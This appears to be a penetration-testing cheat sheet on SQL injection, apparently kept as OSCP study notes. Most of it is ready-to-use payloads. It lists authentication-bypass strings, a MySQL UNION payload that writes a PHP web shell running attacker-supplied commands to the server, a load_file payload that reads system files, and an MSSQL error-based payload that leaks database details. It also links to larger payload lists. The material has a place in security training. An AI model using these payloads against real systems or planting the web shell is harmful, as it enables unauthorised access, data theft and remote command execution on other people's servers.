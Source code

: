 # SQL Injection

## Readings

* [https://github.com/xMilkPowderx/OSCP/blob/master/SQLi.md](https://github.com/xMilkPowderx/OSCP/blob/master/SQLi.md)

## Authentication Bypass

Some programming languages may expect a single SQL record. If so, we need to limit the number of records manually:

```
admin' or 1=1 LIMIT 1;#
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -
```

## MariaDB / MySQL

### Code Execution

```
http://target/page.php?param=vuln UNION SELECT 1,2,3,"<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE 'web_server/backdoor.php'
```

### Load File

```
union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6
```

## MSSQL

* [https://c0deman.wordpress.com/2013/06/25/mssql-injection-cheat-sheet/](https://c0deman.wordpress.com/2013/06/25/mssql-injection-cheat-sheet/)

### Error-based SQLi

If an error page is displayed, a way to retrieve DB data is through error-based SQLi. Meaning data will be included in the error page.

Example: if a single quote is generating an error, you can enter the following and check if the DB version is included in the error page:

```
',convert(int,@@version))--
```

The payload may need to be adjusted if any syntax error appear.

## Fuzzing

[https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/SQLi](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/SQLi)
